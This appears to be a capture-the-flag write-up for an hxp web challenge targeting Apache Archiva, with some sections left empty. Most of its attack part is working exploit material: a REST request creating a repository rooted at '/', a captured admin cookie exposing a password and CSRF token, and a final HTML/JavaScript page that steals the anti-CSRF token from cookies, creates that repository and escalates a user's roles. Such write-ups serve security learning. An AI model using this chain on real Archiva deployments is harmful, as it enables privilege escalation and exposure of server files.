

---
Category:
  - Web
Difficulty: Medium
Platform: hxp
Status: 3. Complete
tags:
  - XSS
  - CSRF
  - exploit-dev
  - exploit-chain
  - evasion
---

>[!quote]
>I’m using this super secure big company open source software, what could go wrong?

# Setup

### Challenge Accounts

-   User (local & remote): `ctf:H4v3Fun`
-   Admin (local only): `admin:admin123`

This challenge offers an individual instance for you and therefore runs behind a proxy requesting login credentials. Locally use `hxp:hxp`.

Download: https://2022.ctf.link/assets/files/archived-28a1c2a57470dcc3.tar.xz

# Information Gathering

## The application at-a-glance 🔍


## Source code review


# Exploitation

## XSS in /repository/internal/

>[!bug] 
>The bug

Group Id:
```js


```

Cookies can be leaked because they do not have security flags set.

## New repository can be created from any folder

>[!bug]
>The bug

```http
POST /restServices/archivaServices/managedRepositoriesService/addManagedRepository HTTP/1.1 

{"id":"test","name":"test","layout":"default","indexDirectory":"/","location":"/","cronExpression":"0 0 * * * ?","scanned":false,"snapshots":false,"releases":false,"blockRedeployments":false,"skipPackedIndexCreation":false,"modified":true}
```



## Cookie can be leaked and anti-CSRF token is contained inside

```http
POST /restServices/archivaServices/managedRepositoriesService/addManagedRepository HTTP/1.1
Host: 127.0.0.1:8055
X-XSRF-TOKEN: yvffOhptmrIU/diN+xcPRRVSzJP1cOXDskVPiT41dIWAk5onv3yrP+1dQLDq2yOoWaEo1TBrvIC7PqHR5+pVJJWfeSNEyZNgdfTjGpBBGNykc3RUlINwbBBkwN7nozCmU9SQz8hYS0f3XoH0EDXX61EB4yq4QrqAMva3l34WcNtNRFDUEuVsuEFk6cXwGqdrbSMx8p+Y9Tn8IOgz9xGjKXGA2vYGEnT3SSMh6wo8d/V/ePt2SQNE4bocOqjqPM2JuPly2Y/aYSOJMaRHqEMP7mOJIW/X1day9V1PJEdCvNzqNt8HaIyuHnCzwoHD7n5+ENAnfkCj8YM6onBrzNxlsA==
Cookie: JSESSIONID=rzegg7o3o1f21ddwm7ukj3hb0; archiva_login=%7B%22username%22%3A%22admin%22%2C%22password%22%3A%22admin123%22%2C%22confirmPassword%22%3Anull%2C%22fullName%22%3A%22the%20administrator%22%2C%22email%22%3A%22admin%40adm.in%22%2C%22permanent%22%3Afalse%2C%22validated%22%3Atrue%2C%22timestampAccountCreation%22%3Anull%2C%22timestampLastLogin%22%3Anull%2C%22timestampLastPasswordChange%22%3Anull%2C%22locked%22%3Afalse%2C%22passwordChangeRequired%22%3Afalse%2C%22assignedRoles%22%3A%5B%5D%2C%22modified%22%3Afalse%2C%22readOnly%22%3Afalse%2C%22userManagerId%22%3Anull%2C%22rememberme%22%3Atrue%2C%22validationToken%22%3A%22yvffOhptmrIU%2FdiN%2BxcPRRVSzJP1cOXDskVPiT41dIWAk5onv3yrP%2B1dQLDq2yOoWaEo1TBrvIC7PqHR5%2BpVJJWfeSNEyZNgdfTjGpBBGNykc3RUlINwbBBkwN7nozCmU9SQz8hYS0f3XoH0EDXX61EB4yq4QrqAMva3l34WcNtNRFDUEuVsuEFk6cXwGqdrbSMx8p%2BY9Tn8IOgz9xGjKXGA2vYGEnT3SSMh6wo8d%2FV%2FePt2SQNE4bocOqjqPM2JuPly2Y%2FaYSOJMaRHqEMP7mOJIW%2FX1day9V1PJEdCvNzqNt8HaIyuHnCzwoHD7n5%2BENAnfkCj8YM6onBrzNxlsA%3D%3D%22%2C%22logged%22%3Afalse%7D
...
```

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Exploit</title>
    </head>
    <body>
        <h1>Exploit</h1>
        <script type="text/javascript">
            function getValidationToken() {
                console.log("Getting validationToken.");
                var validationToken = "";
                document.cookie.split("; ").forEach(
                    function(c) {
                        r = `archiva_login=`;
                        if(c.startsWith(r)) {
                            validationToken = JSON.parse(decodeURIComponent(c.replace(r,"")))["validationToken"];
                        } 
                    }
                );
                console.log("validationToken = " + validationToken);
                return validationToken;
            }
            
            getValidationToken();
        </script>
    </body>
</html>
```

Final exploit:
```html
<!DOCTYPE html>
<html>
    <head>
        <title>Exploit</title>
    </head>
    <body>
        <h1>Exploit</h1>
        <script type="text/javascript">

            function getValidationToken() {
                console.log("Getting validationToken.");
                var validationToken = "";
                document.cookie.split("; ").forEach(
                    function(c) {
                        r = "archiva_login=";
                        if(c.startsWith(r)) {
                            validationToken = JSON.parse(decodeURIComponent(c.replace(r,"")))["validationToken"];
                        } 
                    }
                );
                console.log("validationToken = " + validationToken);
                return validationToken;
            }

            console.log("Exploit started!");
            var antiCsrfToken = getValidationToken();
            var url = "";
            var body = "";
            var objectResponse;

            console.log("Creating repository.");
            url = "/restServices/archivaServices/managedRepositoriesService/addManagedRepository";
            body = {
                "id": "pwn",
                "name": "pwn",
                "layout": "default",
                "indexDirectory": "/",
                "location": "/",
                "cronExpression": "0 0 * * * ?",
                "scanned": false,
                "snapshots": false,
                "releases": false,
                "blockRedeployments": false,
                "skipPackedIndexCreation": false,
                "modified": true
            };
            fetch(url, {
                method: "POST",
                credentials: "include",
                headers: {
                    "X-XSRF-TOKEN": antiCsrfToken,
                    "Content-Type": "application/json"
                },
                body: JSON.stringify(body),
                cache: 'no-cache'
            })
            .then(response => response.text())
            .then(data => objectResponse = data)
            .then(() => console.log(objectResponse))
            .catch(error => console.error(error));

            console.log("Updating user roles.");
            url = "/restServices/redbackServices/roleManagementService/updateUserRoles";
            body = {
                "username": "ctf",
                "assignedRoles": [
                    "Registered User",
                    "Repository Manager - internal",
                    "Repository Observer - internal",
                    "Repository Observer - pwn"
                ]
            };
            fetch(url, {
                method: "POST",
                credentials: "include",
                headers: {
                    "X-XSRF-TOKEN": antiCsrfToken,
                    "Content-Type": "application/json"
                },
                body: JSON.stringify(body),
                cache: 'no-cache'
            })
            .then(response => response.text())
            .then(data => objectResponse = data)
            .then(() => console.log(objectResponse))
            .catch(error => console.error(error));

            console.log("Exploit finished!");
        </script>
    </body>
</html>
```

# Flag

>[!success] Flag
> `Th1s_15_th3_fl4g`
